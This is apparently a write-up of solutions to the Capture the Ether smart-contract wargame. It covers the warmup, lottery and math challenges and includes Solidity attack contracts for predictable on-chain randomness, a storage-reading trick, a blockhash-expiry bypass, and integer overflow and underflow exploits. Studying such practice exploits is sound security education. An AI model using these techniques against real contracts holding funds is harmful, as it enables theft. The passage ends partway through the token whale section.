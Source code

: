 # Capture The Ether WRITEUP


Writeup of the different challenges of [Capture the ether](https://capturetheether.com/)

# Warmup

## 2) Call Me

Pretty simple, you just call the function `callMe()`.

## 3) Choose a nickname

Again the challenge is simple, you call the function `setNickame()` with your nickname.
2 subtilities:
- One, you need to call `setNickname()` on the CaptureTheEther contract at address `0x71c46Ed333C35e4E6c62D32dc7C8F00D125b4fee` and not the address given on the left.
- Two, you need to be sure to encode your nickname correctly. The contract check the leftmost character to see if its 0 or not so you need to be sure that your nickname is save as 0xYOURNICKNAMEINHEX00000000000000000000...0 instead of 0x00000000000000000000...0YOURNICKNAMEINHEX.

# Lotteries

## 4) Guess the number

Simply call `guess()` with 42 as argument and msg.value equal to 1 ether.

## 5) Guess the secret number

We need to find which uint8 has a keccak256 hash equal to the one save in the contract. We can easily brute force the solution with a loop:
```python
for i in range(2 ** 8):
    # if the hash matches, guess the number
    if Web3.solidityKeccak(["uint8"], [i]).hex().upper() == answerHash.upper():
        contract.guess(i, {"from": account, "value": ONE})
```
Then we send the transcation like the previous challenge.

## 6) Guess the random number

We need to find the number saved during the creation of the contract. Since the variable doesn't have the `public` visibility modifer, solidity didn't create a getter `answer()`, but we can still look at the contract storage and find the number:
```python
answer = int(w3.eth.get_storage_at(contract_address, 0).hex(), base=16)
```
Then we send the transcation like the previous challenge.

## 7) Guess the new number

Similar to the previous challenges, we need to find the right number, only now, the number is generated at the same time we are trying to guess it.
```solidity
uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));
```

To guess this number, we create an attack contract that will do the same calculation as the target contract and will then "guess" the correct answer. Since the calculations are done during the same transaction, they will have the same block.number and timestamp:
```solidity
uint8 answer = uint8(
            uint256(
                keccak256(
                    abi.encodePacked(
                        blockhash(block.number - 1),
                        block.timestamp
                    )
                )
            )
        );
GuessTheNewNumber(target_contract).guess{value: msg.value}(answer);
payable(msg.sender).transfer(address(this).balance);
```
We need to slightly modify the syntax since we are using solidity version 0.8.0 so `now` becomes `block.timestamp` and `keccak(x,y)` become `keccak256(abi.encodePacked(x,y))`
Then our `attack()` function call the `guess()` function with a `msg.value` of `1 ether` and we then transfer the received ether to our EOA attacker address. We also need to make sure our attack contract has a `receive()` function to receive the ether from the target contract:
```solidity
receive() external payable {}
```


## 8) Predict the future

We need to guess a number between 0 and 9 (because of the `% 10`) and call `lockInGuess(uint8 n)`. Then with a different transaction, check wheter our guess was correct or not by calling `settle()`. The problem is, if the guess was wrong, we need to guess again and each guess cost us 1 ether:
```solidity
function lockInGuess(uint8 n) public payable {
    require(guesser == 0);
    require(msg.value == 1 ether); // need to pay 1 ether to guess

    guesser = msg.sender;
    guess = n;
    settlementBlockNumber = block.number + 1; 
}

function settle() public {
    require(msg.sender == guesser); // need to call lockInGuess() each time we settle
    require(block.number > settlementBlockNumber);// has to be a different transaction (and in a different block)

    uint8 answer = uint8(
        keccak256(block.blockhash(block.number - 1), now)
    ) % 10; // calculate the answer

    guesser = 0; //reset, so if the next line is wrong, we need to call lockInGuess() again
    if (guess == answer) {
        msg.sender.transfer(2 ether);
    }
}
```
The trick is to randomly guess a number, say 8, and then with a different transaction check whether that transaction will be in a block where the answer will be equal to our guess. If it is, we call `settle()` and win, if it's not, we simply abort the transaction, lost some gas fee, and try again.
```solidity
function attack() public returns (bool) {
    uint8 answer = uint8(
        uint256(
            keccak256(
                abi.encodePacked(
                    blockhash(block.number - 1),
                    block.timestamp
                )
            )
        )
    ) % 10; // compute the answer just like the target contract will, with the same params (`block.number` and `block.timestamp`)
    require(answer == 8); // make sure our answer is correct, if not revert
    PredictTheFutureChallenge(target).settle(); // if its correct, we call settle()
    payable(msg.sender).transfer(address(this).balance);// and transfer our ether from our contract to our attacker address
}
```
Now we just need to send the same transaction where we call `attack()` until the tx goes through and we recover our ethers. We only lose some gas fee.



## 9) Predict the block hash

Same challenge as before, except we now need to guess the hash of the current block instead of a number modulo 8. Another difference is that the answer check the hash of the block our guess transaction was in (the one in which we call `lockInGuess(bytes32 hash)`) and not the current one. If we read the solidity docs on [blockhash](https://docs.soliditylang.org/en/v0.4.24/units-and-global-variables.html#block-and-transaction-properties), we see that they are only stored for 256 blocks, for scalability reasons, and after that `blockhash(blockNumber)` will return 0. so we know that the answer will be zero in the future, we can just guess zero, wait until the block number has increased by more than 256 (it takes about an hour) and make the contract check our answer.


# Math

## 10) Token sale

Here we need to create an overflow in the `buy()` function in order to increase our balance on the contract without sending that much ethers:
```solidity
require(msg.value == numTokens * PRICE_PER_TOKEN); // PRICE_PER_TOKEN = 10^18
```
We need to set `numTokens` to a value that will overflow `numTokens * PRICE_PER_TOKEN` so `msg.value` can be lower that what the contract think we sent. We need to overflow the righthand side of this `require`. We know that for an `uint256` an overflow happens at 2^256, which become zero. If we divide that number by 10^18 (since numTokens will be mul by 1 ether) we get a value `x` that will be multiply by 10^18 and cause an overflow. BUT, since we first divided by 10^18, we get a float number that will be floored when given to the contract so when we multiply that number by 10^18, we'll get a smaller number that before and there will be no overflow. So before sending that `x` number to the contract, we need to add 1 to it, so `x` time 10^18 will be bigger than 2^256. Here are the numbers:
```
# 2^256 = 115,792,089,237,316,195,423,570,985,008,687,907,853,269,984,665,640,564,039,457,584,007,913,129,639,936
# /10^18 = 115,792,089,237,316,195,423,570,985,008,687,907,853,269,984,665,640,564,039,457.584007913129639936
# take the floor = 11,579,208,923,731,619,542,357,098,500,868,790,785,326,998,466,564,056,403,9457 -> `x`
# +1 = 11,579,208,923,731,619,542,357,098,500,868,790,785,326,998,466,564,056,403,9458 -> `NumTokens`
# *10^18 = 115,792,089,237,316,195,423,570,985,008,687,907,853,269,984,665,640,564,039,458,000,000,000,000,000,000 -> what will happen in the require (will overflow) and need to be equal to msg.value
# MOD = 415,992,086,870,360,064 -> `msg.value`
```

## 11) Token whale

We can see that the private function `_transfer_()` does something strange. It never take an argument for the `from` of the transfer and assumes that the transfer comes from the `msg.sender`. This cause a problem in `transferFrom()` since it calls `_transfer()` which means the transfer is between the `msg.sender `and the `_to`, but the `msg.sender` balance is never checked for underflow. So when it reduces the balance of `msg.sender`, it can underflow and the `msg.sender` ends up with a huge balance.
```solidity
function transferFrom(
    address from,
    address to,
    uint256 value
) public {
    require(balanceOf[from] >= value); // check for underflow for `from` and not `msg.sender`
    require(balanceOf[to] + value >= balanceOf[to]);
    require(allowance[from][msg.sender] >= value);

    allowance[from][msg.sender] -= value;
    _transfer(to, value);
}
```